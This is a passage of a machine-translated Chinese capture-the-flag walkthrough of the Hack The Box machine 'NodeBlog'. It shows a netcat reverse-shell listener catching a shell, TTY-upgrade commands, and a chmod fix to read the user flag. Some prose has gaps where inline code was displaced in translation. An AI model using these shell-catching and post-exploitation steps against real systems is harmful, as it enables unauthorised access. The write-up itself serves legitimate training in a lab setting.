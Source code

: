 
在发送中继器时，我得到了一个外壳：

    oxdf@parrot$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.139 38464
    bash: cannot set terminal process group (849): Inappropriate ioctl for device
    bash: no job control in this shell
    To run a command as administrator (user "root"), use "sudo <command>".
    See "man sudo_root" for details.
    
    bash: /home/admin/.bashrc: Permission denied
    admin@nodeblog:/opt/blog$
    

我将使用技巧升级它：`script`

    admin@nodeblog:/opt/blog$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, file is /dev/null
    To run a command as administrator (user "root"), use "sudo <command>".
    See "man sudo_root" for details.
    
    bash: /home/admin/.bashrc: Permission denied
    admin@nodeblog:/opt/blog$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@parrot$ stty raw -echo; fg
    nc -lnvp 443
                reset
    admin@nodeblog:/opt/blog$
    

### 用户.txt

至少在最初部署到 HTB 时，计算机在 上以奇怪的权限退出。当我加载外壳并得到一个错误时，这是第一次可见的：“bash： /home/admin/.bashrc： 权限被拒绝”。`/home/admin`

该目录设置为 644：

    admin@nodeblog:/home$ ls -l
    total 0
    drw-r--r-- 1 admin admin 220 Jan  3 17:16 admin
    

没有目录，我就不能进入它。有趣的是，即使管理员可读，我也无法阅读它：`x``user.txt`

    admin@nodeblog:/home$ cat admin/user.txt
    cat: admin/user.txt: Permission denied
    

但是，由于管理员是目录的所有者，我可以更改权限并获取标志：

    admin@nodeblog:/home$ chmod +x admin/
    admin@nodeblog:/home$ cd admin/
    admin@nodeblog:~$ cat user.txt
    621989e8************************
    

这也许是固定的，但这是对Linux文件权限的有趣探索。
